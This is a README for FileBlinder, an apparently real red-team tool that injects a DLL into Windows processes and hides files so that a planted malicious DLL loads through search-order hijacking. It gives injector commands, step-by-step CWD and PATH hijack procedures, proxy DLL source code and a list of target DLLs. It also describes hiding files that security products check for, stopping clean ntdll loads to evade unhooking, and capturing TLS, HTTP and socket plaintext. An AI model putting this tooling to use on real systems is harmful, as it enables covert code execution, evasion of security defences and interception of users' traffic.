

# FileBlinder



A Windows DLL injection tool for red team operations. Blocks files from being read by an injected process and prevents the process from loading a clean copy of ntdll. Used to abuse Windows DLL search order hijacking by hiding DLLs in system/admin paths, forcing the loader to fall back to user-controlled directories where you plant a malicious payload.

## Build

```
.\build.ps1        # Windows PowerShell
build.bat          # Windows CMD
./build.sh         # Linux / cross-compile
```

Or build manually:

```
cargo build --release
cargo build --release
```

Outputs: `file_blinder_dll.dll`, `file_blinder_injector.exe` (copied to root by build scripts)

## Usage

```
file_blinder_injector.exe --pid <PID> [--dll <DllPath>] [--block <Path>] [--child]
file_blinder_injector.exe --spawn <ExePath> [--dll <DllPath>] [--block <Path>] [--child] [--cmdline <args>]
```

| Flag | Purpose |
|------|---------|
| `--pid <pid>` | Inject into an existing process |
| `--spawn <exe>` | Create target process suspended, inject, then resume |
| `--dll <path>` | Path to `file_blinder_dll.dll` (default: `.\file_blinder_dll.dll`) |
| `--block <path>` | Hide a file path from the target — it will appear to not exist |
| `--child` | Recursively inject into child processes spawned by the target |
| `--cmdline <args>` | Command-line arguments for the spawned process (`--spawn` only) |

### Examples

```powershell
# Inject into running process with default DLL
.\file_blinder_injector.exe --pid 3660

# Inject with custom DLL and file blocking
.\file_blinder_injector.exe --pid 3660 --dll .\payload.dll --block "C:\Windows\System32\version.dll"

# Spawn target, block DLL, child injection — all with default DLL
.\file_blinder_injector.exe --spawn notepad.exe --block "C:\Windows\System32\version.dll" --child
```

This makes `C:\Windows\System32\version.dll` invisible to notepad.exe. When notepad (or any application it spawns) tries to load `version.dll`, the loader skips `System32`, falls past the other protected directories, and eventually reaches the current working directory — where you have planted a malicious `version.dll`.

## DLL Search Order Hijacking

### How Windows Finds DLLs

When a process calls `LoadLibrary("foo.dll")` without a full path, Windows searches these locations **in order**:

| Priority | Location | Default |
|----------|----------|---------|
| 1 | Known DLLs | System-cached (ntdll, kernel32, etc.) |
| 2 | Application directory | The `.exe`'s folder |
| 3 | System directory | `C:\Windows\System32` |
| 4 | 16-bit system directory | `C:\Windows\System` |
| 5 | Windows directory | `C:\Windows` |
| 6 | Current directory | The process's CWD |
| 7 | PATH directories | Every entry in `%PATH%` |

If a DLL exists in a higher-priority location, the lower ones are never consulted. This is what makes hijacking possible.

### The Attack

For a DLL that normally resides in `System32`:

```
Normal load:  App dir → [not found] → System32 → [found, load the real one]
```

With FileBlinder:

```
Blinded load: App dir → [UNWRITABLE, skip] → System32 → [BLOCKED, appears missing]
              → System → [UNWRITABLE, skip] → Windows → [UNWRITABLE, skip]
              → CWD → [your malicious DLL loads]
```

The application directory, System32, and Windows directory are all protected. You can't write to any of them. But you don't need to. After blocking the legitimate DLL in System32, the loader falls through all the unwritable directories and finds the first writable location — the current working directory — where you've planted your payload.

### Why This Works

`C:\Windows\System32`, the application directory (usually `C:\Program Files\*`), and `C:\Windows` are all protected by UAC and TrustedInstaller — you can't write to or modify files in any of them. But you don't need to. FileBlinder hooks 18 file APIs at runtime inside the target process, returning `FILE_NOT_FOUND` for any blocked path. The NT kernel never sees the denial — it happens entirely in user mode, inside the process.

### Planting the Malicious DLL

You cannot write to `System32`, the application directory, or `C:\Windows`. All of these are protected by UAC, TrustedInstaller, or both. The attack works through the **current working directory** or **PATH** — both of which you can control without touching protected folders.

**CWD attack:**

```
1. Create a controlled folder: C:\Users\Public\payload\
2. Drop your malicious version.dll there
3. Launch or inject the target with CWD set to C:\Users\Public\payload\
4. Inject FileBlinder with --block "C:\Windows\System32\version.dll"
5. target.exe calls LoadLibrary("version.dll") →
   App dir → System32 → System → Windows → CWD → [your payload loads]
```

You can set the target's working directory via the parent process, a LNK shortcut, or the `--spawn` flag (the spawned process inherits the current working directory).

**PATH attack:**

```
1. Create a controlled folder: C:\Users\Public\payload\
2. Drop your malicious DLL there
3. Prepend C:\Users\Public\payload\ to the target's PATH
4. Inject FileBlinder with --block "C:\Windows\System32\version.dll"
5. target.exe calls LoadLibrary("version.dll") →
   Falls through all folders → hits PATH entry → [your payload loads]
```

The PATH attack is useful when you cannot control the target's CWD — for example, services or scheduled tasks that set their own working directory.

### Which DLLs Can You Hijack?

Any DLL that the target loads via `LoadLibrary`, delay-load, or COM activation without a full path. Common targets:

- `version.dll` — loaded by most GUI applications for version resource APIs
- `dwmapi.dll` — loaded by many graphics-heavy applications
- `propsys.dll` — loaded by Explorer and shell extensions
- `bcrypt.dll` — loaded by many updaters and installers
- `cryptbase.dll` — loaded by applications using DPAPI
- `textshaping.dll` — loaded by modern Chromium-based apps

Use [ProcMon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to discover what DLLs a target loads. Filter for `Operation: CreateFile` and `Path: ends with .dll` with `Result: NAME NOT FOUND` — these are the DLLs the application searches for in non-system paths and are prime hijack candidates.

### Advanced: DLL Proxying

When you replace a DLL, your payload must export the same functions the real DLL provides, otherwise the application crashes. Forward the calls to the original DLL.

**Important:** Your proxy DLL runs inside the same injected process, so FileBlinder's hooks also apply to it. Calling `LoadLibrary("C:\Windows\System32\version.dll")` from your proxy will fail — that path is blocked. Instead, save a renamed copy of the original DLL to your controlled folder and forward to that:

```
1. Copy C:\Windows\System32\version.dll → C:\Users\Public\payload\version_orig.dll
2. Your malicious version.dll forwards exports to version_orig.dll (not the System32 path)
3. version_orig.dll is at an unblocked path → loads normally
```

#### Method 1: Linker forwarders (simplest, no C code)

Dump the real DLL's exports, generate a `.def` with linker forwarder directives, and compile an empty DLL:

```powershell
# Step 1: Dump exports from the real DLL
dumpbin /EXPORTS C:\Windows\System32\version.dll

# Step 2: Build version.def — each export forwarded to the renamed copy
#         (dumpbin shows ordinals and names; convert to this format)
```

```def
; version.def — linker forwarders, no C code needed
EXPORTS
  GetFileVersionInfoExW      = version_orig.GetFileVersionInfoExW
  GetFileVersionInfoSizeExW  = version_orig.GetFileVersionInfoSizeExW
  GetFileVersionInfoSizeW    = version_orig.GetFileVersionInfoSizeW
  GetFileVersionInfoW        = version_orig.GetFileVersionInfoW
  VerFindFileA               = version_orig.VerFindFileA
  VerFindFileW               = version_orig.VerFindFileW
  VerInstallFileA            = version_orig.VerInstallFileA
  VerInstallFileW            = version_orig.VerInstallFileW
  VerLanguageNameA           = version_orig.VerLanguageNameA
  VerLanguageNameW           = version_orig.VerLanguageNameW
  VerQueryValueA             = version_orig.VerQueryValueA
  VerQueryValueW             = version_orig.VerQueryValueW
```

```
# Step 3: Compile
cl /LD /DEF:version.def /Fe:version.dll empty.c
```

The linker resolves each forward at load time — no stub code required. When the target calls `GetFileVersionInfoW`, the loader follows the forwarder chain to `version_orig.dll` automatically.

#### Method 2: C proxy with macros (when you need custom logic)

Use this when you need to log calls, modify parameters, or inject behavior before forwarding:

```c
// proxy.c
// Build: cl /LD /DEF:version.def proxy.c /Fe:version.dll

#include <windows.h>

static HMODULE hOriginal = NULL;

BOOL WINAPI DllMain(HINSTANCE hinst, DWORD reason, LPVOID reserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        // Load renamed copy — NOT the blocked System32 path
        hOriginal = LoadLibraryW(L"version_orig.dll");
        if (!hOriginal) return FALSE;
    }
    return TRUE;
}

// Macro: generate a forwarder stub for each export
#define FORWARD(ret, name, ...)                         \
    typedef ret (WINAPI *fn_##name)(__VA_ARGS__);       \
    ret WINAPI name(__VA_ARGS__) {                       \
        fn_##name p = (fn_##name)GetProcAddress(hOriginal, #name); \
        return p ? p(__VA_ARGS__) : (ret)0;              \
    }

// version.dll exports
FORWARD(BOOL,   GetFileVersionInfoExW,     LPCWSTR, DWORD, LPVOID, DWORD)
FORWARD(BOOL,   GetFileVersionInfoSizeExW, LPCWSTR, DWORD, LPDWORD)
FORWARD(BOOL,   GetFileVersionInfoSizeW,   LPCWSTR, LPDWORD)
FORWARD(BOOL,   GetFileVersionInfoW,       LPCWSTR, DWORD, DWORD, LPVOID)
FORWARD(DWORD,  VerFindFileA,              DWORD, LPCSTR, LPCSTR, LPCSTR, LPSTR, PUINT, LPSTR, PUINT)
FORWARD(DWORD,  VerFindFileW,              DWORD, LPCWSTR, LPCWSTR, LPCWSTR, LPWSTR, PUINT, LPWSTR, PUINT)
FORWARD(DWORD,  VerInstallFileA,           DWORD, LPCSTR, LPCSTR, LPCSTR, LPCSTR, LPCSTR, LPCSTR, LPSTR, PUINT)
FORWARD(DWORD,  VerInstallFileW,           DWORD, LPCWSTR, LPCWSTR, LPCWSTR, LPCWSTR, LPCWSTR, LPCWSTR, LPWSTR, PUINT)
FORWARD(BOOL,   VerLanguageNameA,          DWORD, DWORD, LPCSTR, PUINT, PUINT, PUINT, LPCSTR, PUINT)
FORWARD(BOOL,   VerLanguageNameW,          DWORD, DWORD, LPCWSTR, PUINT, PUINT, PUINT, LPWSTR, PUINT)
FORWARD(BOOL,   VerQueryValueA,            LPCVOID, LPCSTR, LPVOID*, PUINT)
FORWARD(BOOL,   VerQueryValueW,            LPCVOID, LPCWSTR, LPVOID*, PUINT)
```

```def
; version.def — export the proxy stubs (not forwarders this time)
EXPORTS
  GetFileVersionInfoExW
  GetFileVersionInfoSizeExW
  GetFileVersionInfoSizeW
  GetFileVersionInfoW
  VerFindFileA
  VerFindFileW
  VerInstallFileA
  VerInstallFileW
  VerLanguageNameA
  VerLanguageNameW
  VerQueryValueA
  VerQueryValueW
```

## Beyond Hijacking: General File Hiding

FileBlinder blocks **any** file path, not just DLLs. Use it to:

- Hide config files loaded by the target
- Hide license/registration check files
- Block log files from being written (the target thinks writes succeeded)
- Suppress detection files that security products check for

## ntdll Protection

Once injected, FileBlinder snapshots the in-memory ntdll.dll (already patched by its own hooks) and protects it from being evaded:

### Read Interception

Any attempt by the infected process to read a fresh ntdll from disk is intercepted:

| Attack | Defense |
|--------|---------|
| `NtReadFile` / `ReadFile` on `C:\Windows\System32\ntdll.dll` | Returns the hooked in-memory copy, not the clean on-disk version |
| `NtReadFileScatter` | Same — scatter/gather reads return hooked bytes |
| `NtCreateSection(SEC_IMAGE)` from ntdll file handle | Redirected to a pagefile-backed section filled with the hooked copy |
| `NtOpenSection("\KnownDlls\ntdll.dll")` | Blocked with `STATUS_ACCESS_DENIED` |
| `CopyFile` to copy ntdll elsewhere then read it | Copy writes the hooked bytes (read interception fires during copy) |

### Write Protection

External processes cannot overwrite the hooked ntdll pages:

| Attack | Defense |
|--------|---------|
| `NtWriteVirtualMemory` / `WriteProcessMemory` to ntdll range | Returns success without writing |
| `NtProtectVirtualMemory` to make ntdll writable | Silently blocked |
| `NtMapViewOfSection` mapping over ntdll range | Blocked with `STATUS_CONFLICTING_ADDRESSES` |
| `NtUnmapViewOfSection` on ntdll base | Silently blocked |
| Direct `mov` after making pages writable | Prevented by blocking NtProtectVirtualMemory |

### Limitations

The write protection only applies to processes that have FileBlinder injected. An external process without the DLL can still call `WriteProcessMemory` on the target to overwrite ntdll. To fully prevent this, protect the ntdll pages at the OS level (e.g., via VBS enclave or kernel driver).

## How It Works

FileBlinder uses [MinHook](https://github.com/TsudaKageyu/minhook) to install inline detours on 32 NT/Win32 API functions:

| Category | Functions Hooked | Purpose |
|----------|-----------------|---------|
| File hiding (18) | `NtOpenFile`, `NtCreateFile`, `NtQueryAttributesFile`, `NtQueryFullAttributesFile`, `GetFileAttributesW`, `GetFileAttributesExW`, `CreateFileW`, `FindFirstFileW`, `FindFirstFileExW`, `SearchPathW`, `LoadLibraryW`, `LoadLibraryExW`, `PathFileExistsW`, `_waccess`, `_wstat64`, `_wfopen` | Make blocked paths invisible |
| ntdll protection (8) | `NtReadFile`, `NtReadFileScatter`, `NtCreateSection`, `NtOpenSection`, `NtWriteVirtualMemory`, `NtProtectVirtualMemory`, `NtMapViewOfSection`, `NtUnmapViewOfSection` | Intercept disk reads of ntdll, protect memory |
| Process spawn (1) | `CreateProcessInternalW` | Child injection + telemetry |
| DLL load (1) | `LdrLoadDll` | Telemetry |
| TLS capture (3) | `EncryptMessage`, `DecryptMessage`, `InitializeSecurityContextW` | TLS plaintext interception |
| HTTP capture (7) | `WinHttpSendRequest`, `WinHttpWriteData`, `WinHttpReadData`, `HttpSendRequestW`, `HttpSendRequestA`, `InternetReadFile`, `InternetWriteFile` | HTTP/S plaintext |
| Socket capture (4) | `send`, `recv`, `WSASend`, `WSARecv` | Raw socket data |

Config is read from `C:\Users\Public\file_blinder_block.cfg` (blocked path) and `C:\Users\Public\file_blinder_child.cfg` (child injection flag).
